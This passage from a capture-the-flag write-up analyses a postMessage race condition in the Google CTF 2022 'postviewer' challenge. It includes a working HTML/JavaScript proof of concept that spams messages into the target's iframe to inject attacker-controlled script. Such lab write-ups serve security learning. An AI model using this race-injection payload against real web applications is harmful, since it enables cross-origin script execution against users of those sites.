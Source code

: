 `previewIframe` function creates `iframe` which points to a blob with `SHIM`, which registers an `onmessage` handler and then receives the `body` of the file for processing the display.

But what if we could post our own malicious postMessage, before the 34th line gets executed? Theoretically, the `SHIM` should then render our payload, let's verify if that's the case.

![](https://i.imgur.com/V90NDl8.png)

### PoC 1 - Rendering our own content
To test that we can use a relatively simple payload like this:

```html
<script>
essa = window.open("https://postviewer-web.2022.ctfcompetition.com/")

setTimeout(function() {
    essa.location = "https://postviewer-web.2022.ctfcompetition.com/#a,a.list-group-item"

    function race() {
        if(essa.frames.length > 0) {
            essa.frames[0].postMessage({ body: `
            <script>
            console.log("WIN", Date.now(), window.origin, window.location.href)
            window.stop()
            <\/script>
            
            <body>
            </body>`, mimeType: "text/html" }, "*")
            
        }
    }
    onmessage = function a(data) {
        if(data.data == "blob loaded") {
            clearInterval(gg)
            alert("WIN")
        }
    }
    var gg = setInterval(race, 25);
    
}, 1000)
</script>
```

The code above does the following:

1. Opens the postviewer application
2. After 1000ms change the location of the opened window to the first file on the list, leveraging the first vulnerability.
3. Register onmessage handler so that we can know if we have won the race
4. Start the race, spamming postMessages every 25ms to the application in the hope that we send our payload before the application tries to handle legitimate file contents (line 34).

After executing the code a few times we were indeed able to win the race! 
